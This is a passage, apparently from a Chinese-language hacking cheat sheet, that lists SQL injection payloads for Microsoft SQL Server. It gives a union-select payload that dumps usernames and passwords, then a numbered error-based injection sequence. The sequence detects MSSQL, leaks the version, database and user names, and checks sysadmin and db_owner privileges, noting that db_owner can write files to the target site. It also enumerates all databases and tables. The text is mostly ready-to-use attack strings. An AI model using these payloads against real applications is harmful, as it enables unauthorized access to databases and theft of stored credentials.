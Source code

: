 ```
?id=0' union select top 1 1,username,password from users--+
```

### error 注入

- MSSQL数据库是强类型语言数据库，当类型不一致时将会报错，配合子查询即可实现报错注入。



```
**1.判断注入点** 
id=1

**2.判断是否为MSSQL数据库** 
# 返回正常为MSSQL
id=1 and exists(select * from sysobjects)
id=1 and exists(select count(*) from sysobjects)

**3.判断数据库版本号** 
id=1 and @@version>0--+
# @@version是mssql的全局变量，@@version>0执行时转换成数字会报错，也就将数据库信息暴露出来了
# 版本号：nt5.2:2003 nt6.0:2008

**4.获取当前数据库名** 
and db_name()>0--+
and 1=db_name()--+
# 报错注入的原理就是将其他类型的值转换层int型失败后就会爆出原来语句执行的结果

**5.判断当前服务器拥有的权限** 
and 1=(select IS_SRVROLEMEMBER('sysadmin'))--+
and 1=(select IS_SRVROLEMEMBER('serveradmin'))--+
and 1=(select IS_SRVROLEMEMBER('setupadmin'))--+
and 1=(select IS_SRVROLEMEMBER('securityadmin'))--+
and 1=(select IS_SRVROLEMEMBER('diskadmin'))--+
and 1=(select IS_SRVROLEMEMBER('bulkadmin'))--+

**6.判断当前角色是否为DB_OWNER** 
and 1=(select is_member('db_owner'))--+
# db_owner权限可以通过备份方式向目标网站写文件

**7.获取当前用户名** 
and user_name()>0--+

8,获取所有数据库名
and (select name from master.sys.databases where database_id=1)>0--+
# 更改database_id的值来获取所有的数据库

**9.获取数据库的个数** 
and 1=(select quotename(count(name)) from master.sys.databases)--+
**
10.一次性获取所有数据库库** 
and 1=(select quotename(name) from master.sys.databases for xml path(''))--+

**11.获取所有的表名** 
# 获取当前库第一个表
and 1=(select top 1 table_name from information_schema.tables)--+
# 获取当前库第二个表
and 1=(select top 1 table_name from information_schema.tables where table_name not in('emails'))--+
# 获取当前库第三个表
and 1=(select top 1 table_name from information_schema.tables where table_name not in('emails','uagents'))--+
# 也可通过更改top 参数获取表
and 1=(select top 1 table_name from information_schema.tables where table_name not in
(select top 5 table_name from information_schema.tables))--+
# quotename和for xml path('')一次性获取全部表
```